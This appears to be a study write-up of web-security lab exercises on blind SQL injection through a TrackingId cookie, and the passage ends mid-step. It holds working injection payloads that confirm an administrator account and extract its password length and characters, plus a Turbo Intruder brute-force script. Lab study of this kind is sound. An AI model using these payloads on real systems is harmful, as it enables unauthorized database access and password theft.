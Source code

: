 ``` SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4' ```

```'k5FAbL0pQ5lRNgcB' AND (SELECT username FROM users where username='administrator')='administrator'--'```

Find length of password send it to Intruder then Payloads and Payloads type is numbers and check the password >1

```'k5FAbL0pQ5lRNgcB' AND (SELECT username FROM users where username='administrator' AND LENGTH (password)>1)='administrator'--'```

Find the password send it to Intruder then Payloads and Payloads type is brute forcer and highlite a character and set min and max length to 1

```'k5FAbL0pQ5lRNgcB' AND (SELECT substring(password,1,1) FROM users where username='administrator')='a'--'```

then I select first 1 in password,1,1 and 'a' character and set it in Position as cluster bomb and choose first as numbers and second one ac brute force like before in Payloads.

**Turbo Intruder**
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=3,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for i in range(1, 21):
        #engine.queue(target.req, str(i))
        list_abc = list('abcdefghijklmnopqrstuvwxyz0123456789')
        #char_list = ['a',...]
        for j in list_abc:
            engine.queue(target.req, [str(i), j])

def handleResponse(req, interesting):
    #if interesting:
    if len(req.response) == 11199:
        table.add(req)
```
## Inducing conditional responses by triggering SQL errors

### Blind SQL injection with conditional errors

**Solution**
1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie. For simplicity, let's say the original value of the cookie is *TrackingId=xyz*.
2. Modify the *TrackingId* cookie, appending a single quotation mark to it:

    ``` TrackingId=xyz' ```

    Verify that an error message is received.
3. Now change it to two quotation marks:
